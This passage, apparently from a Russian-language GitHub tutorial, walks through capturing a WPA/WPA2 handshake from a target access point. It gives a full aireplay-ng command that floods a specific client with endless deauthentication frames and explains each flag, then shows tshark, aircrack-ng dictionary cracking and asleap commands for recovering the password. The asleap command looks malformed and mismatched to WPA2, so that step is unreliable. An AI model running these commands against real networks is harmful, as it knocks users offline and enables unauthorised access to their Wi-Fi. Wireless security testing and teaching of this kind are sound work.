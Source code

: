 На следующем скриншоте вновь видна интересующая нас ТД, а также теперь виден раздел со клиентами:

![](2.jpg)

В полном списке ТД раздел со клиентами также присутствовал, но уходил за нижний край экрана, поэтому на скриншот не попал.

Для станции мы в поле BSSID можем увидеть значение, которое соответствует BSSID Точки Доступа, т.е. 00:1E:58:C6:AC:FB, это означает, что в данный момент клиент подключен к интересующей нас ТД. Теперь имеется два варианта:
1) Ждать пока клиент отсоединится и вновь подключится к ТД по естественным причинам
2) Выполнить атаку деаутентификация для ускорения процесса

Проведем атаку деаутентификация для ускорения процесса

Для этого откроем второе окно терминала, чтобы не прерывать процесс захвата хендшейка и выполним:

 ```bash
 sudo aireplay-ng --deauth 0 -a 00:1E:58:C6:AC:FB -c 8C:77:16:45:1D:C3 wlan0
 ```

Где:

- --deauth означает отправку маяка деаутентификации.
- 0 - количество отправляемых деавторов (0 означает бесконечное)
- -a 00:1E:58:C6:AC:FB - это MAC-адрес точки доступа
- -c 8C:77:16:45:1D:C3 - MAC-адрес клиента, это необязательно, но лучше направить deauth на конкретного клиента
- wlan0 - это имя интерфейса

![](3.jpg)

Затем проводим перебор пароля для пойманных handshakes WPA/WPA2

-	```bash
	tshark -r WPA2-PSK-Capture1.cap -Y 'eapol'
	```
- 	```bash
	aircrack-ng -w 1000000-password-seclists.txt WPA2-PSK-Capture1.cap
	```
-	```bash
	asleap -C bssid - R bssid -W seclist.txt
	```
